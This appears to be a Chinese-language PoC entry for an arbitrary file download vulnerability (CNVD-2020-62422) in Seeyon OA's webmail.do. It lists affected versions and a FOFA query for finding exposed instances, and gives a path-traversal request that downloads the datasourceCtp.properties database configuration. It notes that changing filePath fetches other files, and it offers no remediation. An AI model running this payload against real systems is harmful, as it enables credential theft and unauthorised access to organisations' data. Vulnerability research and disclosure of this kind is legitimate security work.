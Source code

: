 # 致远OA webmail.do 任意文件下载 CNVD-2020-62422

## 漏洞描述

致远OA存在任意文件下载漏洞，攻击者可利用该漏洞下载任意文件，获取敏感信息

## 漏洞影响

<a-checkbox checked>致远OA A6-V5</a-checkbox></br>

<a-checkbox checked>致远OA A8-V5</a-checkbox></br>

<a-checkbox checked>致远OA G6</a-checkbox></br>

## FOFA

<a-checkbox checked>app="致远互联-OA"</a-checkbox></br>

## 漏洞复现

验证POC

```php
/seeyon/webmail.do?method=doDownloadAtt&filename=test.txt&filePath=../conf/datasourceCtp.properties
```

在漏洞的OA 系统将会下载 **datasourceCtp.properties** 配置文件

![img](../../../.vuepress/public/img/zhiyuan-11.png)



更改参数 filePath 可下载其他文件